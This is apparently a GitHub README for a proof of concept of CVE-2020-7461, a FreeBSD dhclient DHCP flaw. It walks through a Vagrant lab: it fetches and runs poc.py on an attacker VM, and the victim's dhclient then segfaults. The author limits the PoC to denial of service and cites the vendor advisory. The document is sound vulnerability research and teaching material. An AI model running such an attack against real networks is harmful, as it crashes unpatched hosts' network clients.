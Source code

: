 # CVE-2020-7461
PoC for DHCP vulnerability (NAME:WRECK) in FreeBSD

For educational purposes only

## Environment
- Host: macOS 11.2.1
- Vagrant: 2.2.15
- Victim: FreeBSD 12.1-STABLE r364849
- Attacker: Ubuntu 20.04

## Disclaimer
This PoC will cause DoS instead of RCE to prevent abuse.

## PoC 

![wreck](imgs/wreck.png)

### Turn off DHCP server in VirtualBox

![dhcp](imgs/dhcp.png)

### Launch VMs

```
$ cd victim
$ vagrant up
$ cd ..
```

```
$ cd attacker
$ vagrant up
$ vagrant ssh
vagrant@vagrant:~$ sudo apt -y update && apt -y install python3 python3-pip
vagrant@vagrant:~$ wget https://raw.githubusercontent.com/knqyf263/CVE-2020-7461/main/poc.py
vagrant@vagrant:~$ python3 poc.py
Sniffing...
```

### Run dhclient

Open another terminal

```
$ cd victim
$ vagrant ssh
vagrant@freebsd:~ % sudo dhclient em1
DHCPREQUEST on em1 to 255.255.255.255 port 67
Invalid forward pointer in DHCP Domain Search option compression.
Segmentation fault
```

## References
- https://www.forescout.com/company/resources/namewreck-breaking-and-fixing-dns-implementations/
- https://www.freebsd.org/security/advisories/FreeBSD-SA-20:26.dhclient.asc

## Author
Teppei Fukuda
